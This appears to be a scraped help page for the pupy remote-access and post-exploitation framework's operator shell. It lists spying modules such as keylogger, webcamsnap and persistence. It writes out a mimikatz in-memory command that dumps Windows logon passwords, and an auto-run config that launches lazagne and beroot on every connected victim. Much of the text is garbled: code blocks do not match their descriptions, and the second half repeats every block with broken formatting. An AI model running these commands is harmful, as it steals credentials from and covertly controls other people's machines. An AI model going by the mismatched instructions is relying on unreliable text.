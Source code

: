## List commands and modules
To list all commands and aliases use the following command:
```code
>> help
```

For a complete list of modules, run:
```code
>> help -M
```

## Find commands and modules help
First of all it is important to know that nearly all commands in pupy have a help builtin. So if at any moment you are wondering what a command does you can type your command followed by `-h` or `--help`.
```code
>> sessions -h
>> jobs -h
>> run -h
```

For example if you want to know how to use the pyexec module type :
```code
>> run 
getsystem           load_package        msgbox              ps                  shell_exec          
download            interactive_shell   memory_exec         persistence         pyexec              shellcode_exec      
exit                keylogger           migrate             port_scan           pyshell             socks5proxy         
get_info            linux_pers          mimikatz            portfwd             screenshot          upload              
getprivs            linux_stealth       mouselogger         process_kill        search              webcamsnap          
>> load_package 
_sqlite3           linux_stealth      psutil             pupyimporter       pyshell            sqlite3            
interactive_shell  netcreds           ptyshell           pupymemexec        pywintypes27.dll   vidcap             
linux_pers         portscan           pupwinutils        pupyutils          scapy   
```

## Use the completion !
Nearly all commands and modules in pupy have custom auto-completion. So if you are wondering what you need to type just press TAB
```code
>> pyexec -
--code   --file   --help   -c       -h       
>> run pyexec --file /
/bin/         /etc/         /lib/         /libx32/      /media/       /proc/        /sbin/        /sys/         /var/         
/boot/        /home/        /lib32/       /live-build/  /mnt/         /root/        /share/       /tmp/         /vmlinuz      
/dev/         /initrd.img   /lib64/       /lost+found/  /opt/         /run/         /srv/         /usr/         
```


```code
>> shell_exec 'tasklist /V'
```

## Escape your arguments
Every command in pupy shell uses a unix-like escaping syntax. If you need a space in one of your arguments you need to put your argument between quotes.
```code
>> download 'C:\Windows\System32\cmd.exe'
```

If you send a Windows path, you need to double the backquotes or put everything between quotes.
```code
>> download C:\\Windows\\System32\\cmd.exe
```

or
```code
>> run --bg shell_exec 'tasklist /V'
[%] job < shell_exec ['tasklist /V'] > started in background !
```

## Create Aliases
Modules aliases can be defined in the `pupy.conf` file. If you define the following alias :
```code
>> run memory_exec /usr/share/mimikatz/Win32/mimikatz.exe privilege::debug sekurlsa::logonPasswords exit
```

As an example, defining the following alias will add a command to kill the pupy client's process with signal 9:
```code
>> sessions -i 1
```

## Jobs
Some modules like `socks5proxy` or `portfwd` automatically start as jobs, but all modules can be run as jobs when used with the `--bg` argument.
```code
>> sessions -i 'platform:Windows release:7'
```

The jobs output can be retrieved at any moment by using the `jobs -p` command. From the `jobs` command you can also list jobs status and kill jobs.
```
[on_connect]
any_1 = beroot
any_2 = lazagne
```

Regular jobs can be set in Linux/Unix environments by running your `pupysh.py` script inside the Screen utility. You can then setup cronjobs to run the below command at whatever intervals you require, this essentially pastes the input after the word 'stuff' into the screen session. Replace 1674 with the ID of your screen session, the echo command is the Enter key being pressed.
```
[on_connect]
* = include:default_commands

[default_commands]
any_1 = beroot
any_2 = lazagne
```

## Handle multiple clients connected
By default pupy launch every module you run on all connected clients. This allows for example to run mimikatz on all connected clients and dump passwords everywhere in one command
```
>> !ls
```

`code
>> help
`

`code
>> help -M
`

`code
>> sessions -h
>> jobs -h
>> run -h
`

`code
>> run 
getsystem           load_package        msgbox              ps                  shell_exec          
download            interactive_shell   memory_exec         persistence         pyexec              shellcode_exec      
exit                keylogger           migrate             port_scan           pyshell             socks5proxy         
get_info            linux_pers          mimikatz            portfwd             screenshot          upload              
getprivs            linux_stealth       mouselogger         process_kill        search              webcamsnap          
>> load_package 
_sqlite3           linux_stealth      psutil             pupyimporter       pyshell            sqlite3            
interactive_shell  netcreds           ptyshell           pupymemexec        pywintypes27.dll   vidcap             
linux_pers         portscan           pupwinutils        pupyutils          scapy   
`

`code
>> pyexec -
--code   --file   --help   -c       -h       
>> run pyexec --file /
/bin/         /etc/         /lib/         /libx32/      /media/       /proc/        /sbin/        /sys/         /var/         
/boot/        /home/        /lib32/       /live-build/  /mnt/         /root/        /share/       /tmp/         /vmlinuz      
/dev/         /initrd.img   /lib64/       /lost+found/  /opt/         /run/         /srv/         /usr/         
`

`code
>> shell_exec 'tasklist /V'
`

`code
>> download 'C:\Windows\System32\cmd.exe'
`

`code
>> download C:\\Windows\\System32\\cmd.exe
`

`code
>> run --bg shell_exec 'tasklist /V'
[%] job < shell_exec ['tasklist /V'] > started in background !
`

`code
>> run memory_exec /usr/share/mimikatz/Win32/mimikatz.exe privilege::debug sekurlsa::logonPasswords exit
`

`code
>> sessions -i 1
`

`code
>> sessions -i 'platform:Windows release:7'
`

`
[on_connect]
any_1 = beroot
any_2 = lazagne
`

`
[on_connect]
* = include:default_commands

[default_commands]
any_1 = beroot
any_2 = lazagne
`

`
>> !ls
`

